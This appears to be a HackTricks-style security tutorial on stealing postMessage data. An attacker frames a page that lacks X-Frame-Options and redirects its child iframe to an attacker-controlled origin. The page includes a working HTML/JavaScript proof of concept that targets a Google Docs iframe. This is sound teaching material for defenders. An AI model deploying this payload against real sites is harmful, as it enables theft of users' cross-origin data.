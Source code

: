 # Steal postmessage modifying iframe location

{{#include /banners/hacktricks-training.md}}



## Changing child iframes locations

According to [**this writeup**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/), if you can iframe a webpage without X-Frame-Header that contains another iframe, you can **change the location of that child iframe**.

For example, if abc.com have efg.com as iframe and abc.com didn't have X-Frame header, I could change the efg.com to evil.com cross origin using, **`frames.location`**.

This is specially useful in **postMessages** because if a page is sending sensitive data using a **wildcard** like `windowRef.postmessage("","*")` it's possible to **change the location of the related iframe (child or parent) to an attackers controlled location** and steal that data.

```html
<html>
  <iframe src="https://docs.google.com/document/ID" />
  <script>
    //pseudo code
    setTimeout(function () {
      exp()
    }, 6000)

    function exp() {
      //needs to modify this every 0.1s as it's not clear when the iframe of the iframe affected is created
      setInterval(function () {
        window.frames[0].frame[0][2].location =
          "https://geekycat.in/exploit.html"
      }, 100)
    }
  </script>
</html>
```

{{#include ../../banners/hacktricks-training.md}}


